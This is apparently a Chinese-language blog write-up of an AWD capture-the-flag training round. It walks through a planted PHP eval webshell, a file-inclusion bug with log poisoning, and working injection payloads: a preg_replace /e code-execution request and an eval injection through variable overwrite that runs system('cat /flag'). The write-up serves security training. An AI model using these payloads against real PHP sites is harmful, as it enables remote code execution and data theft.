 ```yaml
---
title: awd训练(一)
date: 2022-07-08 20:52:04
tags:
    - awd
categories:
          - [awd]
---
```


一次awd训练，训练一下

<!--more-->

拿到站点之后是这样的站



![image-20220708185624801](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202207081903106.png?x-oss-process=hzy)

与此同时上D盾

![image-20220708185949509](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202207081859588.png?x-oss-process=hzy)

*有一个*eval函数，说简单就是i有个一句话木马，纯纯拼手速的了

，通过这用蚁剑连上自己，然后把后门删掉

![image-20220708190147410](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202207081901467.png?x-oss-process=hzy)

这里我看删不掉我就把后门的参数改了，相信改了之后应该也不会被利用了（当然，用其他漏洞还是能看到的，所以一定要防的完善点）

继续看下一个漏洞

看一下action.php这个文件

```
<?php
require_once("library/common.php"); 
require_once("library/view.php");  // 包含这俩路径的文件
$page = filter($_POST['page']).'.php'; //使用file函数过滤用户输入的内容
$post_data = array();
foreach ($_POST as $key => $value) {
	$post_data[$key] = $value;
}
if (file_exists($page))
{
	@require_once($page);
}
?>
```

这个page参数是可控的，但是同时也需要注意这段代码

```
function filter($input)
{
	return str_replace('.', '', $input);
```

输入的参数中的.都会被替换成空格，所以在传参的同时应该注意不要使用.,这也就是说明我们不能使用相对路径了，而应该使用绝对路径来包含。

尝试将代码写入到logfile.php中，原因如下：

```
function write_log($input) // 写入的参数执行这个方法
{
	global $cfg_logfile;   // 定义这个变量
    file_put_contents($cfg_logfile, $input, FILE_APPEND); 
} 
// 这个write_log函数可以将传入的数据写入到日志里
```

> PHP file_put_contents() 函数
>
> ![image-20220708193345437](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202207081933496.png?x-oss-process=hzy)
>
> **提示：**使用 FILE_APPEND 可避免删除文件中已有的内容。

再看下面这段代码

```
function loadFile($filePath)
{
	global $cfg_basedir;
	if(!file_exists($filePath)){
		write_log('Try to open Null file:'.$filePath);
		return file_get_contents($cfg_basedir.'/error.php'); // 当访问的页面不存在时直接写入内容为文件路径
	}
```

接下来试一下这个文件包含利用，上面说了如果访问的页面不存在就会直接写入内容

![image-20220708194027642](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202207081940779.png?x-oss-process=hzy)

出现报错了，这个情况下应该也是写进去了，上面也提到了，是写到了logfile.php这个文件里面，访问一下，发现是不允许的，应该是权限不够

![image-20220708194210231](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202207081942292.png?x-oss-process=hzy)



那我们试试能不能包含出来这个文件

![image-20220708195830102](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202207081958181.png?x-oss-process=hzy)

成功包含

再来看下一个漏洞

首先科普一下preg_replace函数

![image-20220708200551051](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202207082005117.png?x-oss-process=hzy)

然后看这段代码

```
function action($post_data, $ip_replacement, $mail_replacement){
	foreach ($post_data as $key => $value) {
		$$key = $value;
	}
	try{
		if ($method == '/\\d+\\.\\d+\\.\\d+\\.\\d+/')
		{
			$res = preg_replace($method, $ip_replacement, $source);
		}
		else
		{
			$res = preg_replace($method, $mail_replacement, $source);  //正则命令执行，上面给了这个函数的语法
		}

	}
	catch(Exception $e)
	{
		write_log($e->getMessage());
		$res=$source;
	}
	return $res;
}
$view_class = new View();
$data = array();
$data['page'] = 'normaliz';
$ip_replacement = '222.222.222.222';
$mail_replacement = 'lollol@lol.com';
$data['res'] = action($post_data, $ip_replacement, $mail_replacement);
$view_class->echoContent($data['page'], $data);// 在这些变量里只有post_data是活的，其他都被写死了，所有就需要控制这个函数来进行执行函数
```

这个时候可以通过action.php进行文件包含使其变量覆盖

```
<?php
require_once("library/common.php");
require_once("library/view.php");
$page = filter($_POST['page']).'.php';
$post_data = array();
foreach ($_POST as $key => $value) {
	$post_data[$key] = $value;
}
if (file_exists($page))
{
	@require_once($page);
}
?>

下面这部分是normaliz.php的代码，联合起来看
function action($post_data, $ip_replacement, $mail_replacement){
	foreach ($post_data as $key => $value) {
		$$key = $value;
```

不是要替换吗，那就替换个命令看看会不会执行

```
page=normaliz&res=&method=/b/e&mail_replacement=phpinfo()&source=b;
// preg_replace("/b/e", "phpinfo()", "b");
//  preg_replace中的正则加了e的选项就会把正则式替换的部分替换之后的内容执行一下啊，然后将执行完的结果放进需要被替换的位置
```

![image-20220708201556889](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202207082015984.png?x-oss-process=hzy)

执行成功

下一个漏洞就不是文件包含了，还有个命令执行漏洞

eval函数，yyds

```
for($elseIfLen=1;$elseIfLen<$elseIfaryLen;$elseIfLen++){
					$strElseIf=$this->parseStrIf($strElseIf);
					@eval("if(".$strElseIf."){\$resultStr=\"$strElseIfThen\";}");
					@eval("if(".$strElseIf."){\$elseIfstatus=true;}else{\$elseIfstatus=false;}");
```



```
<?php
require_once("library/common.php");
require_once("library/view.php"); // md5文件包含了view.php，而且这也有变量覆盖，res可以控制strElseIf，这就是触发点
function action($post_data){
	foreach ($post_data as $key => $value) {
		$$key = $value;
	}
	if ($method==='md5'){
		$res = md5($source);
	}
	if ($method==='sha1'){
		$res = sha1($source);
	}
	return $res;
}
$view_class = new View();
$data = array();
$data['page'] = 'md5';
$data['res'] = action($post_data);
$view_class->echoContent($data['page'], $data);
?>
```

```
page=md5&res="or @eval($_POST[123])or"&123=system('cat /flag');
```

![image-20220708203400038](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202207082034121.png?x-oss-process=hzy)

至此就找到这些漏洞，应该也有其他漏洞，就不找了.

